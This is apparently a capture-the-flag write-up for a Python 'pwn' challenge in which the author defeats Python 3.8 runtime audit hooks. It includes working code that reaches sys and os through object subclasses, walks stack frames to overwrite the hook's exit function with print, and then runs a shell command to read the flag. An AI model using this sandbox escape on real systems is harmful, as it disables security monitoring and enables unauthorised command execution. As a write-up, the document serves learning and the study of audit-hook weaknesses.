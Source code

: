 # audited - _pwn, 263pts_

For this challenge we had to bypass runtime audit hooks in the Python interpreter, which were a new addition in Python 3.8. In a nutshell, audit hooks allow scripts to add a hook which is called whenever any interesting event occurs. These events cover things like creating new code objects, opening files, and execveing. You can find a comprehensive list of all audit events in the [CPython documentation](https://docs.python.org/3/library/audit_events.html), and for more implementation details see the [PEP publication](https://www.python.org/dev/peps/pep-0578/).

The challenge registered an audit hook which would call `__exit` (their imported alias of `os._exit`) if it was triggered, which meant that we couldn't simply open the flag or spawn a shell, for example.

Initially I thought this might be a 1-day challenge, so I trawled through all of the audit-hook-related entries in the Python bugtracker, and all issues/PRs on GitHub, but I didn't spot any obvious bugs which would help us solve the challenge. So this was either a previously-unknown bug in the audit implementation, or the developers had forgotten to add audit hooks for some useful function (seemed unlikely as they were pretty diligent in adding them, based on the commit history), or we had to attack the registered audit function itself.

Eventually I decided that the latter option seemed like the most likely, and it became clear that if we could get a reference to the `__main__` module, then we could overwrite the `__exit` function reference with some no-op function, to stop the audit hook from actually exiting the script. 

I was able to achieve this by raising an exception and walking up the stack frames until I found the frame containing the reference to `__exit`. Once I had that I  overwrote it with `print`, and then used `os.system` to cat the flag.
```python
classes = ''.__class__.__base__.__subclasses__()
sys = classes[133].__init__.__globals__['sys']
os = classes[94].__init__.__globals__['_os']

try:
    raise Exception()
except Exception as e:
    _, _, tb = sys.exc_info()
    nxt_frame = tb.tb_frame

    # Walk up stack frames until we find one which
    # has a reference to the audit function
    while nxt_frame:
        if 'audit' in nxt_frame.f_globals:
            break
        nxt_frame = nxt_frame.f_back

    # Neuter the __exit function
    nxt_frame.f_globals['__exit'] = print

    # Now we're free to call whatever we want
    os.system('cat /flag*')
```

